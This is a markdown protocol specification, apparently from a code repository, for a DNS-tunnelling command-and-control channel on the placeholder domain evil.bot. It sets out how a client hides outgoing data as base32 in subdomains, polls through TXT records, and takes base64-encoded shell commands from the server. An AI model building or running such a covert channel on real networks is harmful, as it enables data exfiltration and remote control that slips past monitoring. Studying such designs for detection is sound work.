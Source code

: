 # Domain

evil.bot

# CLIENT -> SERVER

## ENCODING

- Data: Base32 in subdomain
  - The whole data block is one base32 String (minimum padding)
- Commands: Plaintext
- ClientID: Plaintext


### END OF MESSAGE

- 0.[...].evil.bot

## MESSAGE

### A
#### Request ID

- Polling ohne id
- requestid.evil.bot

#### Data
- send data to server

##### Head
- \<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
  - optional: body request signals end of head

#### Body

- \<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot

### TXT

#### Poll

- polling
- poll.\<ClientID>.evil.bot

#### Continue

- continue data transmission
- continue.\<ClientID>.evil.bot

#### Curl

- curl a webpage
- 0.\<base32>\<webpage>.[...].\<base32>\<webpage>.curl.\<ClientID>.evil.bot


## SEQUENCE DIAGRAM


# SERVER -> CLIENT

## ENCODING

- TXT data is base64 encoded (except for the command and the space after it)

## RESPONSES

### A

#### Request ID

- 10.\<random>.\<random>.\<ClientID>

#### Data

- \<random != 10>.\<random>.\<random>.\<random>

### TXT

#### Poll

##### Nothing

- NOTHING

##### Data

- DATA\<space>\<base64>\<data>

##### shell command

- SHELL\<space>\<base64>\<command>


#### Continue

##### Nothing

- NOTHING

##### Data

- \<base64>\<data>

##### shell command

- \<base64>\<command>

## SEQUENCE DIAGRAM